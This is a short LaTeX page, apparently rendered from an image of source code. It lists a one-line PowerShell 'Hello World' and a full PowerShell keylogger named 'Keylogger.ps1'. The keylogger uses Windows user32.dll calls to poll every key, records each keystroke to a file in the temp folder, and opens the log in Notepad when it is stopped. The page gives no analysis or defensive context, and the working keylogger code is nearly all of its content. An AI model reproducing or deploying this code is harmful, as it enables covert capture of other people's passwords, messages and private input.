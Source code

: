 \documentclass{article}%
\begin{document}
\subsection{Scripts}
\hypertarget{script1}{\subsubsection{Simple script}}
\begin{verbatim}
Write-Host Hello World! -f red
\end{verbatim}
\hypertarget{script2}{\subsubsection{Keylogger.ps1}}
\begin{verbatim}
function Start-KeyLogger($Path="$env:temp\keylogger.txt")
{
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode,
	byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
  $null = New-Item -Path $Path -ItemType File -Force
  try
  {
    Write-Host 'Recording key presses. Press CTRL+C to see results.'
     -ForegroundColor Red
    while ($true) {
      Start-Sleep -Milliseconds 40
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        $state = $API::GetAsyncKeyState($ascii)
        if ($state -eq -32767) {
          $null = [console]::CapsLock
          $virtualKey = $API::MapVirtualKey($ascii, 3)
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)
          $mychar = New-Object -TypeName System.Text.StringBuilder
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar,
          $mychar.Capacity, 0)
          if ($success) 
          {
            [System.IO.File]::AppendAllText($Path, $mychar, [
            System.Text.Encoding]::Unicode) 
          }
        }
      }
    }
  }
  finally
  {
    notepad $Path
  }
}
Start-KeyLogger
\end{verbatim}
\begin{verbatim}

\end{verbatim}
\end{document}
